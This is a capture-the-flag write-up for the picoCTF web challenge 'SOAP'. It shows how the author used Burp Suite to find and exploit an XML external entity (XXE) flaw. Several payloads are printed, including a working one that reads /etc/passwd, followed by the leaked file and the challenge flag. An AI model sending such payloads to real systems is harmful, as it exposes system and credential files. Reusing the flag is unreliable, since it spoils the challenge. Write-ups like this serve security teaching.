 # SOAP

* Author: Geoffrey Njogu
* Location: https://play.picoctf.org/events/72/challenges/challenge/376
* Tags: Web Exploitation, XXE

## Problem

> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Additional details will be available after launching your challenge instance.

The challenge came with a hint that reads "XML external entity Injection."

## Solution

I started by launching the instance associated with this challenge (Figure 1) and got the following website launched: ``http://saturn.picoctf.net:50223/`` (Figure 2). There are different education programmes listed (Figure 2) and there are three buttons that give different information about each of the programmes (Figure 3, 4) when clicked. 

After clicking on a couple of them, I went back to Burp Suite Pro and noticed that a couple of POST requests were made to the ``/data`` subdirectory. Based on the given hint and tags, I easily worked out that this required an XXE injection attack. I brushed up on this attack by looking it up and found some articles discussing it [1][2]. 

I assumed an XXE injection vulnerability vector and attempted to exploit it. I sent one of the POST requests to Burp's repeater so that I can modify its requests (Figure 6, 7). I added the following to the request to see if I can get ``/etc/passwd``:

```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>
<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
</ID></data>
```

I sent the request and it seemed to fail:

```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
```

I tried another payload:

```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2
[<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
</ID></data>
```

Another response with nothing in it was returned. After a while with experimenting with different request payloads, I finally succeeded! I used the payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

And got:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```

The flag is: ``picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}``. 

## References

1. https://portswigger.net/web-security/xxe
2. https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
